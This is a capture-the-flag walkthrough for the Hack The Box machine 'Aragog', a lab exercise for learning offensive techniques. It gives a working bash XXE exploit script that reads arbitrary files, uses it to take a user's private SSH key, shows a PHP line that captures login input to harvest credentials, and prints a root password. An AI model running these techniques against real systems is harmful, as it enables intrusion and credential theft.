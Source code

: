 # [Aragog](https://app.hackthebox.com/machines/aragog)

```bash
nmap -p- --min-rate 10000 10.10.10.78 -Pn
```

![Alt text](img/image.png)


Let's do greater nmap scan for open ports(21,22,80).

```bash
nmap -A -sC -sV -p21,22,80 10.10.10.78 -Pn
```

![Alt text](img/image-1.png)


I see that Anonymous login is allowed, let's login and look for what we find.

![Alt text](img/image-2.png)


I see just 'test.txt' file and content of this is empty thing.


For port 80, I need to add ip address into '/etc/hosts' file for resolving purposes.


![Alt text](img/image-3.png)


Let's do directory enumeration.

```bash
gobuster dir -u http://aragog.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,js
```

![Alt text](img/image-5.png)

I see that `hosts.php` file is valid on http server.

![Alt text](img/image-4.png)


I guess that it makes calculations from file 'test.txt' file which located on **ftp server**.

From structure of 'test.txt' file , I see that it is actually **XML**(Extended Markup Language) syntax.


That's proof.

![Alt text](img/image-6.png)


As it is XML language syntax, one vulnerability XML injection comes to my mind .

Let's test.

![Alt text](img/image-7.png)


As a result, I can read all files what I need on my target system.

Now, I wrote a script to read any files on system.

```bash
#!/bin/bash

if [ "$#" == "1" ]; then
    file=$1
else
    echo "$0 [file]"
    exit 1
fi

exploit="<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM \"$file\"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>"

echo "$exploit" > tmp
curl -s -X POST -d @tmp http://aragog.htb/hosts.php | tee $(basename "$file")
rm tmp

```

![Alt text](img/image-8.png)



I see that there is user called '**florian**', let's try to find **private SSH key** file of this user.

```bash
./exploit.sh /home/florian/.ssh/id_rsa
```

![Alt text](img/image-9.png)


Let's get private ssh key file , change mode and login.

![Alt text](img/image-11.png)

user.txt

![Alt text](img/image-10.png)


Once, we run the `pspy64` to see all hidden processes in background.

We see that 'wp-login.py' file is located in '/home/cliff' folder which runs permanently.

Let's edit 'wp-login.php' file that writes input into txt file on '/tmp' folder.

```php
file_put_contents('/tmp/output.txt',file_get_contents('php://input'))
```

![Alt text](img/image-12.png)


From here, I see take password of user.

![Alt text](img/image-13.png)


root: !KRgYs(JFO!&MTr)lf


root.txt

![Alt text](img/image-14.png)
